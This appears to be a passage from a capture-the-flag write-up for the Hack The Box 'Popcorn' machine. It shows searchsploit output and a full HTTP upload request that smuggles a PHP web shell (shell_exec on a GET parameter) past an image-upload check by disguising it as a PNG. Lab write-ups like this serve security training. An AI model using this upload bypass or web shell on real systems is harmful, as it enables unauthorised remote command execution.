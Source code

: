 Among others. These may come in handy.


## Initial Compromise

Visiting the /torrent folder we are presented with a application called "Torrent hoster". What does searchsploit say about this one?

```
root@kali:~/htb/popcorn# searchsploit torrent hoster
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Torrent Hoster - Remount Upload                                                                                                                                     | exploits/php/webapps/11746.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
### File upload restriction bypass leading to RCE

Interesting, examening the exploit, the endpoint "torrenthoster//torrents.php?mode=upload" should be vulnerable to a file upload issue. After some time trying to get the exploit to work, I ruled it out as a rabbit hole.

There are however another file upload functionality that is interesting. If we register an account on the page and upload a legitimate torrent file, we can change the image of the torrent by navigating to "Edit this torrent" --> "Update Screenshot".

Here we can upload a php shell as the image.

```
POST /torrent/upload_file.php?mode=upload&id=9d20536552c00a9e4b3a2b0ae82332ca088d6b12 HTTP/1.1
Host: 10.10.10.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.6/torrent/edit.php?mode=edit&id=9d20536552c00a9e4b3a2b0ae82332ca088d6b12
Content-Type: multipart/form-data; boundary=---------------------------18750189121695846243797441454
Content-Length: 637
Cookie: /torrent/=; /torrent/login.php=; saveit_0=4; saveit_1=0; /torrent/torrents.php=; /torrent/torrents.phpfirsttimeload=1; PHPSESSID=2912f539612ce7e4a624d915232022b9
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------18750189121695846243797441454
Content-Disposition: form-data; name="file"; filename="logo.png.php"
Content-Type: image/png

PNG

<?php echo shell_exec($_GET['cmd']);?>

-----------------------------18750189121695846243797441454
Content-Disposition: form-data; name="submit"

```